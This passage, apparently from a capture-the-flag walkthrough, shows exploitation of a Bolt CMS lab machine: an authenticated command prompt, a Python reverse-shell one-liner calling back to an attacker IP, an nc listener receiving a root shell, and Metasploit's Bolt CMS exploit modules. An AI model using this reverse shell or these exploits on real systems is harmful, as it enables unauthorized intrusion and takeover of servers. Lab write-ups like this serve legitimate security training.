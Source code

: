 ```terminal
";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1643549044;}s:10:"_csrf/bolt";s:43:"cu0xYbhKWkCu8TMIk6KZvUWE1a6qdy6zZXz52LWimzM";s:5:"stack";a:0:{}s:18:"_c
srf/user_profile";s:43:"hzusDAv_pYKHa0wNU_sM3mYS5DX6Y2G2jZaNNE5rIxQ";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1643549051;s:1:"c";i:164354904
3;s:1:"l";s:1:"0";}}                                                          
Enter OS command , for exit 'quit' :
```

What we can do is use a one liner python3 command that can send us a shell, and we can then make our shell stable and functional. Here is the script i used:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",900
1));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

We need to set up a listener on our machine first: `nc -lnvp 9001`

>Note: Don't forget to change the ip address in the script to your ip address.

We can now run the command and get a reverse shell.

```terminal
Enter OS command , for exit 'quit' : python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.31.131",900
1));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

We won't get any output here, but if we go to our listener, we find that we have a shell.

```terminal
$ nc -lnvp 9001                                                                                                                                        1 ⨯
listening on [any] 9001 ...
1connect to [10.11.31.131] from (UNKNOWN) [10.10.102.179] 58452
# whoami                                                                      
1whoami                                                                       
sh: 1: 1whoami: not found                                                     
# whoami                                                                      
whoami                                                                        
root                                                                                                                                                   
# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@bolt:~/public/files#
```

We are already root so that's great.

## Method 2 (Metasploit)

With Metasploit, things are a bit easy, we search for Bolt CMS, we select the exploit we want to use, we set the required parameters(RHOSTS, USERNAME, PASSWORD and LHOST) and we run the exploit.

```terminal
msf6 > search Bolt CMS

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


```